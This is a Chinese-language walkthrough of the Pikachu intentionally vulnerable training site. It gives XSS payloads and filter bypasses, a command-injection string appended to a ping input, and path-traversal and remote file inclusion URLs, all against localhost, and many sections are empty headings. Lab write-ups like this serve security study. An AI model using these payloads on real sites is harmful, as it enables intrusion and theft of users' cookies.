

# pikachu靶场全解

环境配置和DVWA类似，都是新建数据库，然后修改config文件就可以了。


## 暴力破解

### 基于表单的暴力破解

### 验证码绕过(on server)

### 验证码绕过(on client)

### token防爆破


## Cross-Site Scripting

### 反射型xss(get)

经典alert

```
<script>alert('xss')</script>
```

但是前端做了输入长度的限制，所以直接F12查看元素，修改为比较大的数值再submit即可


然后就成功弹窗了。


### 反射型xss(POST)

没啥好说的，`admin/123456`登录进去还是一样的提交

```
<script>alert('xss')</script>
```

一样弹窗，只不过提交方式变为了POST而已

```
message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```


### 存储型xss

还是一样，只不过可以持久性触发，提交之后每一次访问这个页面都会触发这个xss脚本

```
<script>alert(document.cookie);</script>
```

```
<script>alert(1)</script>
```


### DOM型xss

先随便输入点东西看看反应`pikachu`


清楚的看到了DOM发生了某种变化，那就直接交payload了

```
javascript:alert(1)
```

点击下面超链接就能够进行弹窗。


### DOM型xss-x

还是一样随便输入点东西，然后发现生成了

`有些费尽心机想要忘记的事情,后来真的就忘掉了`

点击这个链接，发现又生成了一个新的`就让往事都随风,都随风吧`


那还是同上

```
javascript:alert(1)
```

点击两次链接就会弹窗了


### xss之盲打

需要配合使用，弹的是管理员那边的

还是随意提交xss代码

```

<script>alert(1)</script>
<button onclick=alert(1) >xss</button>
```


然后登录后台

```
http://127.0.0.1/vul/xss/xssblind/admin_login.php
```

然后就会有弹窗了！


### xss之过滤

过滤了`<script>`

那直接还有两种经典的方式进行

```

<button onclick=alert(1) >xss</button>
```

都是可以绕过过滤手段的。


### xss之htmlspecialchars

这个函数会对输入的东西进行转义

输入`<script>alert('xss')</script>`

会进行转义

```
<a href="<script>alert(" xss')&lt;="" script&gt;'="">&lt;script&gt;alert('xss')&lt;/script&gt;</a>
```


所以还是直接构造：

```
1'onclick='alert(1)'
```


提交点击后成功弹窗


### xss之href输出

还是和上面一样：

```
javascript:alert(1)
```

提交之后点击链接就能够弹窗了


### xss之js输出

随便输出，可以发现输入的东西进了script里面



所以直接构造输入

```
';alert(1);//
```

然后成功弹窗，实验成功！

提交之后的js代码变为：

```javascript
$ms='';alert(1);//';
```


## CSRF

### CSRF(get)

### CSRF(post)

### CSRF Token


## SQL-Inject

### 数字型注入(post)

### 字符型注入(get)

### 搜索型注入

### xx型注入

### "Insert/update"注入

### "delete"注入

### "http header"注入

### 盲注(base on Boolean)

### 盲注(base on time)

### 宽字节注入


## RCE

### exec "ping"

```
127.0.0.1&&ls
```


### exec "eval"

```
system("ls");
```


## File Inclusion

### File Inclusion(Local)

新建一个文件在fileinclude文件下，可以进行包含，当然也是可以包含其他文件的，乃至电脑上的任意文件

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../1.txt&submit=提交
```

在网站根目录之外一层新建一个flag.txt文件，也是可以进行包含的

```
http://127.0.0.1/vul/fileinclude/fi_local.php?filename=../../../../../flag.txt&submit=提交
```


### File Inclusion(remote)

远程包含，可以包含远程服务器上的文件也可以直接访问网页

```
http://127.0.0.1/vul/fileinclude/fi_remote.php?filename=http://www.baidu.com&submit=提交
```


## Unsafe Filedownload


## Unsafe Fileupload

### client check

### MIME type

### gerimagesize


## Over Permission

### 水平越权

### 垂直越权


## 目录遍历

### ../../


## 敏感信息泄露

### IcanseeyourABC


## PHP反序列化


## XEE


## URL重定向

### 不安全的URL跳转


## SSRF

### SSRF(curl)


### SSRF(file_get_content)

